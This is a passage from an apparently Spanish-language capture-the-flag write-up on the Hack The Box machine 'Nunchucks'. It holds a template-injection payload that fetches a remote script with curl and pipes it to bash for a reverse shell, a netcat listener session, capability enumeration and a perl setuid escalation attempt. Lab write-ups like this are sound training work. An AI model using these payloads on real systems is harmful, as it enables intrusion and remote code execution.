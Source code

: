 Podemos ver el /etc/passwd, vamos a tratar de establecernos una revserse shell.

![](/assets/images/Nunchucks/img7.png)

```json
{"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl http://10.10.16.6/shell.sh|bash')\")()}}"}
```

Si miramos nuestro listener podemos ver que tenemos una shell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from nunchucks.htb [10.10.11.122] 58908
bash: cannot set terminal process group (1004): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ id
id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:/var/www/store.nunchucks$ 
```

### Privesc Failed

Vamos a hacerle el tratamiento de la tty para tener una shell totalmente interactiva y poder escalar privilegios de una forma más cómoda.

Si miramos las capabilites podemos ver la siguiente:

```bash
david@nunchucks:/opt$ getcap -r / 2>/dev/null 
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
david@nunchucks:/opt$ 
```

Con perl podemos cambiar nuestro uid, pero si lo intentamos podemos ver que no podemos.

```bash
david@nunchucks:/opt$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/opt$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:/opt$
```
